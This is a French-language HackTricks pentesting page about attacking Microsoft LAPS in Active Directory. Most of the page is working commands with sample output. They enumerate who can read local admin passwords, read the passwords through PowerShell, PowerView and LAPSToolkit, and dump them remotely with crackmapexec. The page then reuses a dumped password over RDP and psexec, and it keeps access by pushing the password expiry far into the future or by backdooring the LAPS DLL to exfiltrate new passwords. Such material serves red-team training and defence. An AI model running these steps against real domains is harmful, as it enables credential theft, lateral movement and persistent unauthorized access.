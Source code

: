 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Informations de base

La solution de mot de passe d'administrateur local (LAPS) est un outil utilisé pour gérer un système où les **mots de passe d'administrateur**, qui sont **uniques, aléatoires et fréquemment changés**, sont appliqués aux ordinateurs joints au domaine. Ces mots de passe sont stockés en toute sécurité dans Active Directory et ne sont accessibles qu'aux utilisateurs qui ont reçu l'autorisation par le biais des listes de contrôle d'accès (ACL). La sécurité des transmissions de mots de passe du client au serveur est assurée par l'utilisation de **Kerberos version 5** et de **l'Advanced Encryption Standard (AES)**.

Dans les objets d'ordinateur du domaine, la mise en œuvre de LAPS entraîne l'ajout de deux nouveaux attributs : **`ms-mcs-AdmPwd`** et **`ms-mcs-AdmPwdExpirationTime`**. Ces attributs stockent respectivement le **mot de passe d'administrateur en texte clair** et **son heure d'expiration**.

### Vérifier si activé
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### Accès au mot de passe LAPS

Vous pouvez **télécharger la politique LAPS brute** depuis `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` et ensuite utiliser **`Parse-PolFile`** du package [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) pour convertir ce fichier en un format lisible par l'homme.

De plus, les **cmdlets PowerShell LAPS natives** peuvent être utilisées si elles sont installées sur une machine à laquelle nous avons accès :
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** peut également être utilisé pour découvrir **qui peut lire le mot de passe et le lire** :
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

Le [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) facilite l'énumération de LAPS avec plusieurs fonctions.\
L'une consiste à analyser **`ExtendedRights`** pour **tous les ordinateurs avec LAPS activé.** Cela montrera les **groupes** spécifiquement **délégués pour lire les mots de passe LAPS**, qui sont souvent des utilisateurs dans des groupes protégés.\
Un **compte** qui a **joint un ordinateur** à un domaine reçoit `All Extended Rights` sur cet hôte, et ce droit donne au **compte** la capacité de **lire les mots de passe**. L'énumération peut montrer un compte utilisateur qui peut lire le mot de passe LAPS sur un hôte. Cela peut nous aider à **cibler des utilisateurs AD spécifiques** qui peuvent lire les mots de passe LAPS.
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
Si l'accès à PowerShell n'est pas disponible, vous pouvez abuser de ce privilège à distance via LDAP en utilisant
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
Cela va extraire tous les mots de passe que l'utilisateur peut lire, vous permettant d'obtenir un meilleur point d'ancrage avec un autre utilisateur.

## ** Utilisation du mot de passe LAPS **
```
freerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS Persistence**

### **Date d'expiration**

Une fois administrateur, il est possible de **obtenir les mots de passe** et **empêcher** une machine de **mettre à jour** son **mot de passe** en **définissant la date d'expiration dans le futur**.
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
Le mot de passe sera toujours réinitialisé si un **admin** utilise la **`Reset-AdmPwdPassword`** cmdlet ; ou si **Ne pas autoriser une durée d'expiration de mot de passe plus longue que celle requise par la politique** est activé dans le GPO LAPS.
{% endhint %}

### Backdoor

Le code source original pour LAPS peut être trouvé [ici](https://github.com/GreyCorbel/admpwd), il est donc possible d'ajouter une backdoor dans le code (dans la méthode `Get-AdmPwdPassword` dans `Main/AdmPwd.PS/Main.cs` par exemple) qui **exfiltrera de nouveaux mots de passe ou les stockera quelque part**.

Ensuite, il suffit de compiler le nouveau `AdmPwd.PS.dll` et de le télécharger sur la machine dans `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (et de changer l'heure de modification).

## Références
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
